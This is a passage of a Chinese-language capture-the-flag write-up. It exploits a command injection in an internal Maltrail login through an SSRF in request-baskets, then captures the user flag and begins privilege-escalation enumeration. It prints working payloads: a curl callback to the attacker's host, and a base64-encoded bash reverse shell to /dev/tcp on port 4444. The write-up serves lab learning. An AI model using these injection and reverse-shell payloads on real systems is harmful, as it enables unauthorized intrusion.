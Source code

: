 原来最开始nmap扫描结果里被filtered的8338就是这个Maltrail啊。都联系起来了！

那么测试一下8338这个命令注入。  
首先继续利用之前那个PoC，将basket的forward_url设置更改为 `http://127.0.0.1:8338/login`，让本地8338服务的目标URL暴露。  
既然是命令注入的话，先试试能否执行curl连到我的kali吧：

- 在kali用python简单开个http服务：`python -m http.server 80`
- 然后向basket发送payload：``curl -XPOST http://10.10.11.224:55555/poc11 --data 'username=;`curl 10.xx.xx.xx:80`'``  

python的http服务成功收到响应。  

那么再想想如何利用这个命令注入——既然能反连回来，那当然得弄个反弹shell看看。  
开启监听，不过试了好几条插入反弹shell的命令都无法执行成功，想着可能是特殊字符的问题，于是尝试传递base64再解码执行的方式。  
执行下面payload，成功get shell。其中 `<rshell-base64>` 的部分为 `/bin/bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1` 的base64编码。

- payload：``curl -XPOST http://10.10.11.224:55555/poc11 --data 'username=;`echo "<rshell-base64>" |base64 -d |bash`'``  


## flag: user

进来的shell是puma用户权限，看一眼home目录只有puma，所以这就是有 user flag 的用户。

```bash
puma@sau:/opt/maltrail$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
puma@sau:/opt/maltrail$ ls /home
ls /home
puma
puma@sau:/opt/maltrail$ cat /home/puma/user.txt
cat /home/puma/user.txt
6a04……97b7
```


## Privilege Escalation

### 探索

基础探索一把梭：

- 用户家目录的隐藏文件：无
- SUID：无特别发现
- 无当前用户的凭据，不过姑且看了眼 `sudo -l`：竟然不需要输入密码？

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
